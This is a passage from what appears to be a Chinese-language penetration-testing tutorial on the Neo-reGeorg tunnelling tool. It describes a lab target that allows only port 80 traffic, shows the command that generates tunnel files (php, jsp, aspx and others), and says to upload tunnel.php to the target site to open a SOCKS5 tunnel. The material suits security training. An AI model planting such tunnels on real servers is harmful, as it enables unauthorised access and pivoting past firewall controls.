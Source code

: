 ```
Nmap done: 1 IP address (1 host up) scanned in 0.02 seconds
```



## Neo-reGeorg

**入站**仅允许TCP 80端口（接收外部请求），**出站**仅允许 TCP 80 端口（已建立的连接），其他端口（如22/SSH、443/HTTPS等）和 ICMP 协议均被阻断。



靶机限制：仅允许通过 80 端口入站，仅允许 80 端口出站，不允许其他任何端口出站。

![image-20250304094331572](./images/%E4%BB%A3%E7%90%86%E5%B7%A5%E5%85%B7%E8%BF%90%E7%94%A8.assets/image-20250304094331572.png)



Neo-reGeorg 工具生成 php、jsp 文件，上传到网站后可以与目标网站建立 socks5 连接。

生成 tunnel 文件

```
python neoreg.py generate -k 123 -o socks

...
    [+] Mkdir a directory: socks
    [+] Create neoreg server files:
       => socks/tunnel.cs
       => socks/tunnel.go
       => socks/tunnel.ashx
       => socks/tunnel.aspx
       => socks/tunnel.php
       => socks/tunnel.jsp
       => socks/tunnel.jspx
```



将 tunnel.php 文件上传到网站。
